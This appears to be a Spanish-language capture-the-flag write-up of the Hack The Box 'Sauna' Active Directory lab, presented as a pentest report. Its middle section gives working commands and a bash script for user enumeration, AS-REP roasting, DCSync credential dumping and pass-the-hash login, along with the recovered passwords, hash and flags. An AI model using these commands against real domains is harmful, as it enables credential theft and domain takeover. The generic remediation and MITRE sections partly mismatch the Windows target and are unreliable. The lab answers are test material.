# Informe Técnico de Seguridad Ofensiva: Sauna


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Sauna** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Explotación de servicio de red
* **Vector de Elevación de Privilegios:** Escalada local de privilegios
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Sauna |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Windows |
| **Nivel de Dificultad** | Easy |
| **CVE(s) Involucrados** | N/A |
| **Vector de Entrada** | Explotación de servicio de red |
| **Mecanismo de Escalada** | Escalada local de privilegios |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Explotación de servicio de red
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: Escalada local de privilegios
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso



What is the name of the HTML file that reveals the names of users working at the target company?

R:about.html



**Which user has Kerberos Pre-Authentication disabled?**

R:fsmith



```jsx
ldapsearch -x -H ldap://10.10.10.175 -s base defaultNamingContext

```

```jsx
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 \
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o kerb_users.txt
awk '/VALID USERNAME/{print $NF}' kerb_users.txt | cut -d@ -f1 | sort -u > users.txt
```

```jsx
impacket-GetNPUsers 'EGOTISTICAL-BANK.LOCAL/' -dc-ip 10.10.10.175 -no-pass -usersfile users.txt -format john -outputfile asrep.hash
grep -q '^\$krb5asrep\$' asrep.hash && sed -n '1p' asrep.hash
```

**What is the hash format returned from this AS-REP Roasting attack? Given the answer as the string between the first and third `$` characters, including the `$`.**

R:  $krb5asrep$23$



```jsx
impacket-GetNPUsers 'EGOTISTICAL-BANK.LOCAL/fsmith' -dc-ip 10.10.10.175 \

```

**What is the password of the user fsmith?**

R: Thestrokes23



**Now that you have a valid set of credentials, on what port can you connect to the machine and get an interactive shell?**

R: 5985

**Submit the flag located on the fsmith user's desktop.**

R: 3687bd7136de194a3238ef63827e4823



**What user is configured to autologin?**

R: svc_loanmanager



**What is the password of the svc_loanmanager user?**

R: Moneymakestheworldgoround!

**What is the dangerous permission does Bloodhound show the svc_loanmanager user has over the domain? If there is more than one permission, give the longest.**

R: **GetChangesAll**



**You know that the user svc_loanmanager is able to perform a DCSync attack. By doing so, you will get the hash for the Administrator user. What is the common name of the attack that allows users to authenticate with their hashes instead of cleartext passwords?**

R: pass the hash 





```jsx
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175 -just-dc

```

**Submit the flag located on the administrator user's desktop.**

R: 0d9a32f5c65af6a60f606b4dd6be7fef

```jsx
evil-winrm -i 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```



```jsx

#!/usr/bin/env bash

DOM='EGOTISTICAL-BANK.LOCAL'
DCIP='10.10.10.175'
USER='svc_loanmgr'
PASS='Moneymakestheworldgoround!'


impacket-secretsdump "$DOM/$USER:$PASS@$DCIP" -just-dc-user krbtgt

impacket-secretsdump "$DOM/$USER:$PASS@$DCIP" -just-dc


echo "$DCIP ${DOM,,}" | sudo tee -a /etc/hosts


ldapsearch -x -H "ldap://$DCIP" -s base defaultNamingContext


ldapsearch -LLL -x -H "ldap://$DCIP" -b "DC=EGOTISTICAL-BANK,DC=LOCAL" \
 '(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))' sAMAccountName


kerbrute userenum -d "$DOM" --dc "$DCIP" \
  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o kerb_users.txt
awk '/VALID USERNAME/{print $NF}' kerb_users.txt | cut -d@ -f1 | sort -u > users.txt


impacket-GetNPUsers "$DOM/" -dc-ip "$DCIP" -no-pass -usersfile users.txt -format john -outputfile asrep.hash

awk -F'$' '{print "$"$2"$"$3"$"}' asrep.hash


python3 -m bloodhound -d "$DOM" -u "$USER" -p "$PASS" -ns "$DCIP" \
  -c ACL,Group,ObjectProps,Trusts --zip


netexec ldap "$DCIP" -d "$DOM" -u "$USER" -p "$PASS" --dcsync


```

---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Explotación de servicio de red) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (Escalada local de privilegios) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
